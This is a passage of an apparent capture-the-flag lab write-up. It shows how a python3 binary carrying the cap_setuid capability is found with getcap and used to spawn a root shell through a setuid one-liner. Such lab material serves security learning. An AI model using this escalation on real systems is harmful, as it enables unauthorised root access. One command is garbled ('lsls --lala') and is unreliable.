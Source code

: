 ```
kiba@ubuntu:/home/kiba$ cat user.txt
```

This user.txt flag can be submitted as the answer to the fourth question.

5. ##### Capabilities is a concept that provides a security system that allows "divide" root privileges into different values

Though we don't need to give any answer to this question, it definitely gives us a hint that we need to use Linux Capabilities for privilege escalation.

6. ##### How would you recursively list all of these capabilities?

We can simply do a google search to find the answer for this question. After some research we can find [this](https://www.vultr.com/docs/working-with-linux-capabilities?__cf_chl_jschl_tk__=92b3dbab2c797cb4228927692a7bb187a9eeb61a-1598977955-0-AXZZjx81Q8Zt90gyrUYyMTt5KcXg1ndzEH86_mraDiZccs_tLTQ47VIxN5vz0YyLcaPwRhXsCeGJTaj_cAQydOPTLs0wGkzWA3bTIQChlvhjU5xJ-SNS2mCkXNMipUJZaxDpT4QrNmxBzhdxlyu7WJyY20jBHQUxyMsMH-lRvkoNgITcYD_xqmyg-LwPZDEtGatJ5hynYg1qPnY7CgRvsJ-uJhrlrA1Z8TOlZIEsiouWtBjlwn6tvFHpDaE-Ca_hGYSLuvNCSPliBFy7VH_37CuHgruzzCE856o3O8Xv34_Ac7UYW1Ar6Iotot0N7Fk7unjbJINAhZSwCEKVr6__pehxQbMYzBre3pSeXgXQNHj1aA8YvZTlABjAcfcOB-ejxg) website where we can find the simple command using which we can list all the linux capabilities recursively.

Do note that when you run the command add `2> /dev/null` else you'll see a lot of operation not supported results.

```
kiba@ubuntu:/home/kiba/kibana/bin$ getcap -r / 2> /dev/null

/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```

Here, we can see an odd file `/home/kiba/.hackmeplease/python3`.  On checking it's permission:

```
kiba@ubuntu:/home/kiba/.hackmeplease$ lsls  --lala

total 4356
drwxrwxr-x 2 kiba kiba    4096 Mar 31 22:38 .
drwxr-xr-x 6 kiba kiba    4096 Sep  1 09:49 ..
-rwxr-xr-x 1 root root 4452016 Mar 31 22:38 python3
```

We can see that it is owned by root. So, we can try to use this file to get root access. We can go to [GTFOBins](https://gtfobins.github.io/gtfobins/python/) and check the python capabilities exploit to get root access.

7. ##### scalate privileges and obtain root.txt

Though on GTFOBins the payload is for python 2 we can change it for python3 and use it.

```
./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

And once we execute the command, we will get the root shell:

